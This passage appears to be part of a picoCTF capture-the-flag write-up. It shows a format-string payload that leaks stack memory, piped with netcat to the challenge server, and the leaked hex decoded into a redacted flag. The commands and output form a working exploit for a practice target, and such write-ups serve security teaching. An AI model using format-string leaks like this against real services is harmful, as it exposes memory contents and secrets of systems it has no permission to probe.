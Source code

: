 ## Remote Exploitation

Prepare the payload:

```bash
$ echo '%14$lx;%15$lx;%16$lx;%17$lx;%18$lx;%19$lx;%20$lx;%21$lx' > payload
```

Send it remotely:

```bash
$ (cat payload; cat) | nc mimas.picoctf.net 51563
Give me your order and I'll read it back to you:
Here's your order: 7b4654436f636970;355f31346d316e34;3478345f33317937;30355f673431665f;7d343663363933;7;7353ba9988d8;2300000007;
Bye!
^C
```

Decode the remote flag:

```bash
$ ./read_the_flag '7b4654436f636970;355f31346d316e34;3478345f33317937;30355f673431665f;7d343663363933;7;7353ba9988d8;2300000007'
b'picoCTF{XXXXXX_XXXXX_XXX_XXXX_XXXXXXXX}\x00...'
```

Flag: `picoCTF{XXXXXX_XXXXX_XXX_XXXX_XXXXXXXX}`

---